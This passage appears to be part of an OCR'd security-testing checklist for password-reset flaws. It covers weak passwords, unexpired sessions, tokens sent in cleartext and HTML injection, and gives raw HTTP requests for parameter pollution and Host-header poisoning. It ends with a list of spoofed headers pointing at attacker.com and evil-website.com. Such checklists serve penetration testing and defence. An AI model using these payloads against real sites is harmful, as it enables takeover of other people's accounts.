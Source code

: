 
#### **12. Password Policy Bypass**
- **Weak Password Policy**:  
  - Test for acceptance of weak passwords like `123456`.  
  - Check if passwords can match usernames or emails.  

---

#### **13. Failure to Invalidate Session**
- **Session Not Invalidated After Reset**:  
  - Exploit active sessions after password reset.  

---

#### **14. Cleartext Transmission of Tokens**
- **Tokens Sent Over HTTP**:  
  - Intercept tokens transmitted over unencrypted channels.  

---

#### **15. HTML Injection on Reset Page**
- **Inject HTML Tags**:  
  - Example: `<h1>attacker</h1>`.  
  - Escalate to phishing or XSS attacks.  

1. Parameter pollution

```jsx
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

1. Host header Injection

```jsx
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```

```jsx
Location: http://www.attacker.com/login.php
X-Forwarded-Host: www.attacker.com

Host: evil-website.com

 Host: vulnerable-website.com
Host: evil-website.com
X-Forwarded-For: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
X-Forwarded-For: attacker.com
X-Forwarded-Host: attacker.com
X-Forwarded-Proto: attacker.com
Host: attacker.com 
X-Host: attacker.com
X-Forwarded-Server: attacker.com
X-HTTP-Host-Override: attacker.com
Forwarded: attacker.com
X-Forwarded-For: attacker.com
```